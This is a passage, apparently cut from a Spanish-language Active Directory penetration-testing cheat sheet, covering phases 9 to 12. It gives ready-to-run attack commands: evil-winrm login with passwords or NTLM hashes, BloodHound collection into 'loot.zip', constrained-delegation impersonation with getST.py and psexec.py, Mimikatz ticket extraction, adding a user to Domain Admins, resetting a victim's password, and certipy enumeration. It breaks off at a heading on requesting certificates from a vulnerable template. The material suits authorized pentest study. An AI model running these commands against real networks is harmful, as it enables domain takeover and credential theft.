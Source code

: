 WinRM:

```bash
evil-winrm -i <IP> -u usuario -p contraseña
# o con hash
-H <NTLMHASH>
```

### Fase 9: BloodHound

Recolectar desde Windows:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -ZipFileName loot.zip
```

Desde Kali:

```bash
bloodhound-python -u usuario -p contraseña -d dominio.local -dc-ip <IP> --collection ALL
```

### Fase 10: Abuso de Delegaciones

Constrained Delegation:

```bash
getST.py -spn cifs/servidor.dominio.local -impersonate objetivo dominio.local/usuario:pass -dc-ip <IP>
psexec.py -k -no-pass dominio.local/objetivo@servidor
```

Unconstrained Delegation:

* Usar Mimikatz (`sekurlsa::tickets`) para extraer TGT.

#### Fase 11: Abuso de ACLs

Añadir miembro a grupo:

```bash
net rpc group addmem "Domain Admins" usuario -S <IP> -U atacante%contraseña
```

Cambiar contraseña de otra cuenta:

```bash
net rpc changepassword victima -U atacante%pass -S <IP>
```

### Fase 12: Ataques a ADCS

Enumerar:

```bash
certipy find -u usuario -p contraseña -target <IP> -dc-ip <IP>
```

Solicitar certificado abusando de plantilla vulnerable:
